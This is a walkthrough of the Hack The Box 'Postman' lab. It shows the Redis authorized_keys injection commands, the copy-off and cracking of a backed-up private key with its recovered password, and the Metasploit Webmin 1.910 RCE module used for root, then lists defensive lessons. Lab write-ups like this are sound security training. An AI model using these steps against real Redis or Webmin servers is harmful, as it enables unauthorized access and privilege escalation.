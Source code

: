 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png
coverY: 0
---
```


# 🧠 Real-World Security Lessons from HTB’s Postman: Misconfig to Root📮

<div data-full-width="true"><figure><img src="../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png" alt=""><figcaption></figcaption></figure></div>

### 💡 Summary

Postman (Linux, Easy) brings together two beautiful classics: an unauthenticated Redis server and a Webmin 1.910 instance vulnerable to command injection. Add a dash of SSH key juggling, and we’ve got a shell delivery system.

### 🔍 Enumeration

#### ⚙️ Full Port Scan

```
nmap -n -p- -vvv --reason -oN nmap/01-full-port-scan.txt -iL target.txt
```

**Open Ports**

* 22 – SSH
* 80 – Apache 2.4.29
  *

      <figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
* 6379 – Redis 4.0.9 (no auth)
* 10000 – MiniServ 1.910 (Webmin)



#### 🧠 Service Enumeration

```
nmap -sC -A -O -sV -oN nmap/03-detail-scan.txt -p22,80,6379,10000 -iL target.txt
```

Discovered:

* **Webmin** running on MiniServ 1.910
* **Redis** unauthenticated
* **SSH** banner suggests Ubuntu
* Apache server hosting a personal website

🔎 Googled the following:

* Redis 4.0.9 RCE possibilities&#x20;
  * [link](https://d4luc1.medium.com/unauthenticated-redis-server-leads-to-rce-6c175c75b293)
  * [<sub>https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419</sub>](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419)
* Webmin 1.910 exploit [Exploit-DB 46984](https://www.exploit-db.com/exploits/46984)



### 🛠️ Exploitation: Redis to Shell

**Generate SSH Key**

```
ssh-keygen -f postman
```

**Check for writable `.ssh` directory in Redis**

```
redis-cli -h 10.10.10.160
config set dir .ssh
config set dbfilename authorized_keys
```

**Inject Public Key**

```
(echo -e "\n\n"; cat postman.pub; echo -e "\n\n") > pub_key.txt
cat pub_key.txt | redis-cli -h 10.10.10.160 -x set exploit
save
```

**Login via SSH as redis**

```
ssh -i postman redis@10.10.10.160
```

### 🚪 Lateral Movement

Found `id_rsa.bak` in `/opt`:

```
scp redis@10.10.10.160:/opt/id_rsa.bak .
ssh2john id_rsa.bak > hash.john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.john
```

🎯 **Password Cracked:** `computer2008`

* i tried to ssh into the box but i was not able to as Matt
  * so changed user using the redis shell

```
su Matt
```

### 📈 Privilege Escalation – Webmin RCE

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

* When i try to login into web admin panel with Matt Creds i can get in
* metasploit has a module for exploit webadmin

```
linux/http/webmin_packageup_rce
```

* webadmin is running as root and hence after exploiting it get a shell as root

### 🧠 Key Learnings from HTB Postman

1. **Default Redis Misconfiguration Can Lead to Shell Access**\
   Misconfigured Redis instances without authentication allow attackers to write files like `authorized_keys`, leading to direct system access.
2. **Exposed Private Keys Are a Critical Risk**\
   Backup or misplaced private keys (`.bak` files) can be cracked and reused for lateral movement. Regular key audits and encryption hygiene are essential.
3. **Outdated Web Interfaces Like Webmin Pose Privilege Escalation Risks**\
   Webmin v1.910 contains a known RCE vulnerability, allowing remote root access via command injection. Patch management is non-negotiable.
4. **Credential Reuse Enables Account Traversal**\
   Reusing passwords across services (e.g., Redis to Webmin) facilitated lateral movement and elevation of privileges.
5. **Misconfigurations Chain into Full Compromise**\
   No single point of failure — rather, a chain of small missteps (open Redis, leaked key, outdated Webmin) led to complete root compromise.



{% embed url="https://www.hackthebox.com/achievement/machine/409699/215" %}

